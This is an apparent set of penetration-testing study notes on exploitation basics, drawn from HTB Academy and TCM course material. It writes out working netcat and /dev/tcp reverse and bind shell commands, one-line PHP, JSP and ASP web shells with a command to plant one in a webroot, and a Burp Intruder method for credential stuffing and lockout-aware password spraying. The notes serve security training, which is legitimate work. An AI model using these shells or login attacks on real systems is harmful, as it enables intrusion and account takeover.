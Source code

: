 # Exploitation (Basics)

Exploitation is the attack performed against a system or application based on the potential vulnerability discovered during our information gathering and enumeration.  
We use the information from the Information Gathering stage, analyze it in the Vulnerability Assessment stage, and prepare the potential attacks.  
Often many companies and systems use the same applications but make different decisions about their configuration.  
This is because the same application can often be used for various purposes, and each organization will have different objectives.  

> *Source: Hackthebox Academy*

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  

> *Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)*

- The target connects back to us. Initiates a connection back to a "listener" on our attack box.
- Example
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port) 
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash` we could also use `/bin/bash -i >& /dev/tcp/ATTACKING-MACHINE-IP/4444 0>&1`

### Bind shell

![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)  

> *Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)*

- We connect to the target. "Binds" to a specific port on the target host and waits for a connection from our attack box.
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

### Web shell

- Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command.
- Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

#### PHP Web shell

```php
<?php system($_REQUEST["cmd"]); ?>
```

#### JSP webshell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

#### ASP webshell

```c#
<% eval request("cmd") %>
```

#### Where to upload it

|Web Server|Default Webroot|
|----------|---------------|
|Apache|`/var/www/html/`|
|Nginx|`/usr/local/nginx/html/`|
|IIS|`c:\inetpub\wwwroot\`|
|XAMPP|`C:\xampp\htdocs\`|

- `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php` bash command for an Apache web server on linux
- To access it `shell.php?cmd=id` with the browser
- `curl http://SERVER_IP:PORT/shell.php?cmd=id` with the command line

## Payloads

![image](https://user-images.githubusercontent.com/96747355/175836279-e0f0e004-c75a-4d8e-b4de-9680e1b5306a.png)  

> *Source:[TCM Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)*

- If one type of payload does not work we can try the other one

## Bruteforce attacks

- Check out how to use hydra [here](/Tools/passwords-tools.md#hydra)
- We can also use metasploit that has multiple modules for bruteforce attacks

## Credentials stuffing and password spraying

- Methodology
  - Use leaked creds found during the enumeration phase on the login portals found during the enumeration phase
- The goal of credentials stuffing and password spraying is to taking these credentials and throwing them at a website
- We can use burp intruder for this
  - First we can see what we get when a login fails, and copy the string we get back
  - We send the login portal to intruder and we add the login and password as variables
  - We use a pitchfork attack
  - We make a grep-match on the string previously copied 
  - Then in the payloads we take the list of users for the variable that corresponds to user and the list of passwords for the one that corresponds to the password. And then we just launch the attack.
  - In the results we will see the ones that are not valid with our grep match. We can also check the response (301 is redirect for example) and the size of the paylaod (if it is really different in one of the results
- Password spraying: We can also try an attack with one password and try out multiple usernames
  - Caution here, checkout prior to your engagement if a lockout is in place how many tried before being locked out. When we know this we can then setup our attack to try something every hour or so.

## Possible paths after this step

|Path |Description|
|-----|-----------|
|Information Gathering| Once we have initial access to the target system, regardless of how high our privileges are at that moment, we need to gather information about the local system. Whether we use this new information for privilege escalation, lateral movement, or data exfiltration does not matter. Therefore, before we can take any further steps, we need to find out what we are dealing with. This inevitably takes us to the vulnerability assessment stage, where we analyze and evaluate the information we find.|
|Post-Exploitation| Post-exploitation is mainly about escalating privileges if we have not yet attained the highest possible rights on the target host. As we know, more opportunities are open to us with higher privileges. This path actually includes the stages Information Gathering, Vulnerability Assessment, Exploitation, and Lateral Movement but from an internal perspective on the target system. The direct jump to post-exploitation is less frequent, but it does happen. Because through the exploitation stage, we may already have obtained the highest privileges, and from here on, we start again at Information Gathering.|
|Lateral Movement|From here, we can also skip directly over to Lateral Movement. This can come under different conditions. If we have achieved the highest privileges on a dual-homed system used to connect two networks, we can likely use this host to start enumerating hosts that were not previously available to us.|
|Proof-of-Concept| We can take the last path after gaining the highest privileges by exploiting an internal system. Of course, we do not necessarily have to have taken over all systems. However, if we have gained the Domain Admin privileges in an Active Directory environment, we can likely move freely across the entire network and perform any actions we can imagine. So we can create the Proof-of-Concept from our notes to detail and potentially automate the paths and activities and make them available to the technical department.|

> *Source: HTB Academy*

## Resources

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}Hacking Tutorials{% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}
